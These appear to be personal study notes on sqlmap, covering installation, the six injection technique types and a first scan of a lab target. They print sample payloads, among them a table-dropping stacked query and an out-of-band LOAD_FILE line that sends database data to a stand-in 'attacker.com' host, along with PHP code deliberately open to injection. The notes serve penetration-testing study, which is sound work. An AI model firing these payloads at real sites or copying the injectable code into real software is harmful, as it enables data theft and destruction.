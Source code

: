 
## SQLMap Overview 

sqlmap is an open-source pen testing tool that automates the detection and exploitation of sql injection flaws 

`python sqlmap.py -u 'http://inlanefreight.htb/page.php?id=5`

contains options and switches for: 
- target connection 
- enumeration
- database content retrieval 
- injection detection 
- optimization
- file system access
- fingerprinting 
- protection detection and bypass using "tamper" scripts
- execution of the OS commands 

you can install with: 

`sudo apt install sqlmap`

manual installation: 

`git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev'

then you can run sqlmap with: 

`python sqlmap.py`

there are many supported databases: 

![](../Images/Pasted%20image%2020240105185232.png)

you can see the supported SQL injections with `sqlmap -hh`

BEUSTQ technique characters: 
- `B` = boolean-based blind 
- `E` = Error-based 
- `U` = union query-based 
- `S` = stacked queries 
- `T` = time-based blind 
- `Q` = inline queries

### Boolean-based blind SQL injection 

`AND 1=1`

sqlmap exploits boolean-based blind sql injection through the differentiation of TURE from FALSE query results   
retrieving 1 byte of info per request  
differentiation is based on server responses to see if it returned TRUE of FALSE   
could be from raw response content, HTTP codes, page titles, filtered text, etc. 

TRUE = generally based on responses having none or small difference to regular server response  
FALSE = substantial differences form regular server response  

boolean-based blind SQL injection is most common SQLi type in web apps 

### Error-based SQL injection 

`AND GTID_SUBSET(@@version,0)`

if the database management system (DBMS) errors are being returned in the server response then there is a chance that they can be used to carry the results for requested queries  
so you can target functions that cause known misbehaviors with specific payloads  

sqlmap has the biggest list of these payloads and covers error-based SQL injections for: 

- MySQL 
- microsoft SQL server 
- IBM DB2 
- PostgreSQL 
- Sybase 
- Firebird
- Oracle 
- Vertica
- MonetDB

error-based SQLi are considered to be the fastest, except for UNION query-based, because it can retrieve a limited amount of data called "chunks" through each request 

### UNION query-based

`UNION ALL SELECT 1, @@version,3`

using UNION makes is possible to extend the original (vulnerable) query with the injected statements' results   
attacker can get additional results from the injected statements within the page response itself  

considered the fastest because the attacker could pull the content of the entire database with a single request 

### Stacked queries 

`; DROP TABLE users`

stacking queries also known as piggy-backing is injecting additional SQL statements after the vulnerable one 

if there is a requirement for running non-query statements like INSERT, UPDATE, DELETE then stacking must be supported by the vulnerable platform (microsoft sql server and postgresql support by default) 

SQLmap can use such vulnerabilities to run non-query statements executed in advanced features like execution of OS commands and data retrieval like time-based blind sqli types

### Time-based blind SQL injection 

`AND 1=IF(2>1,SLEEP(5),0)`

similar to boolean-based blind sql injection but the response time is used as the source for the differentiation between TRUE and FALSE 

TRUE = noticeable difference between response time of regular server response  
FALSE = response time indistinguishable from regular response times 

much slower than boolean-based sqli since TRUE queries would delay the server response  
usually used when boolean-based is not applicable  
for example, when statement is a non-query 

### Inline queries 

`SELECT (SELECT @@version) from`

embeds a query within the original query  
uncommon because it requires the web app to be written in a certain way  

### Out-of-band SQL injection 

`LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))`

one of the most advanced types of sqli  
used in cases where all other types are either unsupported or too slow  
sqlmap supports these through DNS exfiltration where requested queries are retrieved through DNS traffic  

running sqlmap on the dns server for the domain under control (.attacker.com) allows sqlmap to perform the attack by forcing the server to request non-existent subdomains (foo.attacker.com) where foo would be the SQL response we want  
sqlmap collects the erroring DNS requests and collects the foo part to form the entire sql response 

## Getting Started with SQLMap 

in a simple scenario, there is a web page that accepts user input via a GET parameter (ex: id)  
you want to test if the web page is affected by a SQL injection  
if so then you will want to exploit it and get as much info as you can  
possibly even try to access the underlying file system and execute OS commands 

some vulnerable php code could look like: 

```php
$link = mysqli_connect($host, $username, $password, $database, 3306);
$sql = "SELECT * FROM users WHERE id = " . $_GET["id"] . " LIMIT 0, 1";
$result = mysqli_query($link, $sql);
if (!$result)
    die("<b>SQL error:</b> ". mysqli_error($link) . "<br>\n");
```

there will be an error reported as part of the web-server response in case of any sql query problems  
these will make SQLi detection easier

basic command on a url would look like: 

`sqlmap -u "http://www.example.com/vuln.php?id=1 --batch`

